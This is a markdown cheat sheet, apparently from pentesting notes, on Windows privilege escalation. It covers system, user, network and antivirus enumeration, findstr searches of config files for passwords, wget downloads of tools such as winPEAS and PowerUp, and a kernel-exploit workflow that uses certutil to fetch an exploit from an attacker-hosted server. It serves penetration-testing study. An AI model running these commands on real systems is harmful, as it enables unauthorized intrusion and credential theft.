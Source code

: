 ```yaml
---
title: Windows Privilege Escalation
layout: default
nav_order: 2
parent: Privilege Escalation

---
```


# Windows Privilege Escalation
{: .no_toc }
## Table of Contents
{: .no_toc .text-delta }
1. TOC
{:toc}
### System Enum

Get System Information
```bash
systeminfo
```
Grabbing OS Name and Version
```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
View patches
```bash
wmic qfe
```

```bash
wmic qfe get caption,Description,HotFixId,InstalledOn
```

Get list of Drives
```bash
wmic logicaldisk get caption,description,providername
```



### User Enum
Get current user
```bash
whoami
```
Get current user privileges
```bash
whoami /priv
```

Get list of groups current user is inside of
```bash
whoami /groups
```

List users on machine
```bash
net user
```

```bash
net user $USER
```

Query group membership

```bash
net localgroup
```

```bash
localgroup <group name>
```

### Network Enum
List IP addresses and network configs
```bash
ipconfig /all
```

Dump arp cache 
```bash
arp -a
```
*Note: If the IP Address for `arp -a` is different from the default gateway or DNS, it could be a sign of the machine being connected to an AD Domain Controller.*

List route table 
```bash
route print
```

List ports and listening ports
```bash
netstat -ano
```

### Password Searching

Searching for passwords in current directory
```bash
findstr /si password *.txt *.ini *.config 
```
```bash
findstr /si Password: *.txt *.ini *.config 
```

```bash
findstr /si Username: Password: *.txt *.ini *.config 
```

```bash
findstr /si password= *.txt *.ini *.config 
```

### Antivirus Enum

Discovering AV (Windows Defender)
```bash
sc query windefend
```

Discovering services
```bash
sc query type=service
```

Discovering firewalls 
```bash
netsh advfirewall firewall dump
```
Discovering firewalls (Legacy) 
```bash
netsh firewall show state
```

Firewall config 
```bash
netsh firewall show config
```

### Automated Tools 
Tools that perform automated privesc enum on Windows boxes: 

#### WinPEAS

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEAS.bat

wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe
```
*If WinPEASany.exe fails, it may either be blocked by antivirus or the target **does not have .NET version 4.0**. Try to run WinPEAS.bat instead.*

#### Seatbelt

```bash
https://github.com/GhostPack/Seatbelt
```

#### Watson

```bash
https://github.com/rasta-mouse/Watson
```

#### SharpUp

```bash
https://github.com/GhostPack/SharpUp
```

#### windows-exploit-suggester

```bash
wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py
```

#### Sherlock.ps1

```bash
wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1
```

#### PowerUp.ps1

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

#### jaws-enum.ps1

```bash
wget https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1
```

### Kernel Exploits


1. Run `windows-exploit-suggester.py` and choose an exploit from the listed output
<br />
<br />
```bash
python windows-exploit-suggester.py --database $DB --systeminfo /path/to/sysinfo.txt
```
2. Run lightweight python server on Kali machine to host exploit executable: 
```bash
python3 -m http.server 80
```
3. Navigate to `temp` folder on windows target: 
<br />
<br />
```bash
cd C:\Windows\temp
```
4. Use `Certutil` to grab exploit from kali machine: 
<br />
<br />
```bash
certutil -urlcache -f http://$IP/Exploit.exe
```
5. Run the exploit